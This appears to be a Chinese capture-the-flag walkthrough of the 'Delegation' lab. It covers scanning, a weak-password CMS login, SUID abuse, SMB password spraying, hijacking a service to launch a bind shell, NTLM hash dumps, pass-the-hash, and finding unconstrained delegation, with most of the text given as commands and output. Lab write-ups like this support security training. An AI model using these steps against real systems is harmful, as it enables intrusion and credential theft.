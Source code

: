 ## 文章

https://fushuling.com/index.php/2023/09/24/%e6%98%a5%e7%a7%8b%e4%ba%91%e5%a2%83%c2%b7delegation/

https://exp10it.cn/2023/08/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-delegation-writeup/#flag01

## 打靶过程

`fscan`扫一下

```bash
fscan -h 
```

```
39.98.126.3:21 open
39.98.126.3:80 open
39.98.126.3:22 open
39.98.126.3:3306 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle: http://39.98.126.3        code:200 len:68100  title:中文网页标题
```

80端口开了Web服务，打开进去是CmsEasy

后台登录界面可以查看到版本号 `V.7752`

![image-20231015085949679](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231015085949679.png)

弱密码 `admin/123456`登录后台

![image-20231015090155898](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231015090155898.png)

本地搜寻漏洞

![image-20231015090232792](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231015090232792.png)

有后台命令执行漏洞

![image-20231015154953596](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231015154953596.png)

```bash
172.22.4.36:21 open
172.22.4.36:80 open
172.22.4.36:22 open
172.22.4.36:3306 open
[*] WebTitle: http://172.22.4.36        code:200 len:68100  title:中文网页标题
172.22.4.36:3306 open
172.22.4.45:445 open
172.22.4.19:445 open
172.22.4.45:139 open
172.22.4.19:139 open
172.22.4.7:139 open
172.22.4.45:135 open
172.22.4.19:135 open
172.22.4.7:135 open
172.22.4.45:80 open
172.22.4.36:80 open
172.22.4.36:22 open
172.22.4.36:21 open
172.22.4.7:445 open
172.22.4.7:88 open
[*] NetInfo:
[*]172.22.4.7
   [->]DC01
   [->]172.22.4.7
[*] NetBios: 172.22.4.45     XIAORANG\WIN19                 
[*] NetInfo:
[*]172.22.4.45
   [->]WIN19
   [->]172.22.4.45
[*] 172.22.4.7  (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.4.19     FILESERVER.xiaorang.lab             Windows Server 2016 Standard 14393 
[*] NetBios: 172.22.4.7      [+]DC DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393 
[*] NetInfo:
[*]172.22.4.19
   [->]FILESERVER
   [->]172.22.4.19
[*] WebTitle: http://172.22.4.36        code:200 len:68100  title:中文网页标题
[*] WebTitle: http://172.22.4.45        code:200 len:703    title:IIS Windows Server
```

```
find / -user root -perm -4000 -print 2>/dev/null
```



```
/usr/bin/stapbpf
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/staprun
/usr/bin/diff
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```

```bash
diff --line-format=%L /dev/null /home/flag/flag01.txt
```

```bash
flag01: flag{4795241f-3a7c-45c0-bcba-294468fc7319}
Great job!!!!!!
Here is the hint: WIN19\Adrian
I'll do whatever I can to rock you...

```

```bash
proxychains4 crackmapexec smb 172.22.4.45 -u 'Adrian' -p /usr/share/wordlists/rockyou.txt -d WIN19
```

```bash
SMB         172.22.4.45     445    WIN19            [-] WIN19\Adrian:babygirl1 STATUS_PASSWORD_EXPIRED 
```

```bash
proxychains4 rdesktop 172.22.4.45  -u Adrian -d WIN19 -p 'babygirl'
```

![image-20231015163708106](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231015163708106.png)

```bash
reg add "HKLM\SYSTEM\CurrentControlSet\Services\gupdate" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Adrian\Desktop\win_bind_x64.exe" /f
```

```bash
sc start gupdate
```

```bash
Adrian    WIN19     46f58bf00195cbd72dc0609a69309ff0  22bca2d6a211debb8b08a2ba918be82d9ad77078
WIN19$    XIAORANG  f311e68fd7304dc315a5df275993cf9a  ffb5f89f04b31a09ba9415be93f547532f8cdb22
WIN19$    XIAORANG  5943c35371c96f19bda7b8e67d041727  5a4dc280e89974fdec8cf1b2b76399d26f39b8f8


inistrator:500:aad3b435b51404eeaad3b435b51404ee:ba21c629d9fd56aff10c3e826323e6ab:::
Adrian:1003:aad3b435b51404eeaad3b435b51404ee:46f58bf00195cbd72dc0609a69309ff0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:44d8d68ed7968b02da0ebddafd2dd43e:::
```

```bash
 python wmiexec.py -hashes "aad3b435b51404eeaad3b435b51404ee:ba21c629d9fd56aff10c3e826323e6ab" administrator@172.22.4.45 -codec gbk
```

```bash
 python findDelegation.py xiaorang.lab/'WIN19$' -hashes :f311e68fd7304dc315a5df275993cf9a -dc-ip 172.22.4.7
```

```bash
Impacket v0.11.0 - Copyright 2023 Fortra

AccountName  AccountType  DelegationType  DelegationRightsTo
-----------  -----------  --------------  ------------------
DC01$        Computer     Unconstrained   N/A
WIN19$       Computer     Unconstrained   N/A
```

